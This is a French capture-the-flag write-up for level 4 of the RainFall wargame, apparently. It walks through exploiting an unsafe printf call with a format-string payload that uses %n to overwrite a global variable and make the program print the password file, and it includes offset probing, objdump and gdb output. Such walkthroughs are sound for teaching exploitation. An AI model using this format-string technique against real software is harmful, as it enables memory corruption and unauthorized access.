 # Level 4

Dans ce programme nous voyons 2 fonctions, n() et p()
La fonction p() fait un appel a printf de maniere non securise, nous allons donc l'exploiter pour ecraser la valeur de la variable globale "m". Car la valeur de m est ensuite verifie dans une condition if pour nous afficher le .pass avec un appel a system et /bin/cat.

Nous allons d'abord chercher l'offset sur lequel ce printf ecrase la memoire:

```
level4@RainFall:~$ python -c 'print("AAAA" + "%08x." * 24)' | ./level4 | grep 41
AAAAb7ff26b0.bffff794.b7fd0ff4.00000000.00000000.bffff758.0804848d.bffff550.00000200.b7fd1ac0.b7ff37d0.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.
```

Nous trouvons que c'est sur le 12eme octet.
Nous pouvons le verifier ainsi:

```
level4@RainFall:~$ python -c 'print("AAAA%12$p")' | ./level4
AAAA0x41414141
```

Nous cherchons ensuite l'adresse de la globale m

```
level4@RainFall:~$ objdump -t ./level4 | grep m
./level4:     file format elf32-i386
080481b0 l    d  .dynsym	00000000              .dynsym
080485b4 l    d  .eh_frame_hdr	00000000              .eh_frame_hdr
080485f8 l    d  .eh_frame	00000000              .eh_frame
08049710 l    d  .dynamic	00000000              .dynamic
00000000 l    d  .comment	00000000              .comment
08049808 l     O .bss	00000001              completed.6159
08048420 l     F .text	00000000              frame_dummy
080486f8 l     O .eh_frame	00000000              __FRAME_END__
08049710 l     O .dynamic	00000000              _DYNAMIC
00000000       F *UND*	00000000              system@@GLIBC_2.0
00000000  w      *UND*	00000000              __gmon_start__
00000000       F *UND*	00000000              __libc_start_main@@GLIBC_2.0
08049810 g     O .bss	00000004              m
080484a7 g     F .text	0000000d              main
```

La derniere a faire est de trouver la valeur a mettre dans la globale m,
nous le faisons avec gdb:

```
level4@RainFall:~$ gdb ./level4
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) disass n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   **0x08048492 <+59>:	cmp    $0x1025544,%eax**
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
```

Finalement nous procedons a l'injection.
Le format "%Nd" remplace le `N` par un chiffre, ce qui nous permet de ne pas mettre les `N` octets nécessaires (Remplacer `"B" * 64` par `"%64d`)

```
$ (python -c 'print "\x10\x98\x04\x08"+"%"+str(0x1025540)+"d%12$n"') | ./level4
```

And we get the .pass !
